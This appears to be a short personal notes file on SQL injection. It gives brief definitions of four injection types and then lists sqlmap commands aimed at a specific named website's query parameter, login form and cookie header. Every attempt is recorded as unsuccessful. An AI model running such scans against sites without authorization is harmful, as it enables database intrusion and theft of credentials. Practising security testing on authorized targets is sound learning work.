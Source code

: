 # Sql injection
    It means attacker can access website's database using query related with perticular database.Mostly I used sqlmap tool for that
purpose.
 Types of sql injection:
1)error based sql injection 2) union based sql injection
3) boolean based sql injection 4) time based sql injection
<html>
  <head> sql injection</head>
  <body> <img src="https://avinetworks.com/wp-content/uploads/2020/04/sql-injection-attack-diagram.png" > </img>
  </body>
  </html>
# Steps
 
  1) First install sqlmap.py from https://github.com/sqlmapproject/sqlmap .
  2) visit http://magnus.jalatechnologies.com/bundles/styles?v=lPGPuSt_xKxNmptTCKJ8QNFrLXCkhCS7B-5FH-7RYpA1.
  3) Perform sql injectionfrom parameter v.
  4) python3 sqlmap.py -u "http://magnus.jalatechnologies.com/bundles/styles?v=lPGPuSt_xKxNmptTCKJ8QNFrLXCkhCS7B-5FH-7RYpA1*" -p v
  5)Not found anything, then try for post request,In username and password parameter.
  6) python3 sqlmap.py -u "http://magnus.jalatechnologies.com//Account/Login" --data "UserName=*&Password=*"
  7) Not found anything,Try in http header.
  8) python3 sqlmap.py -u http://magnus.jalatechnologies.com/ --cookie "Cookie=*"
  9) It also not working.
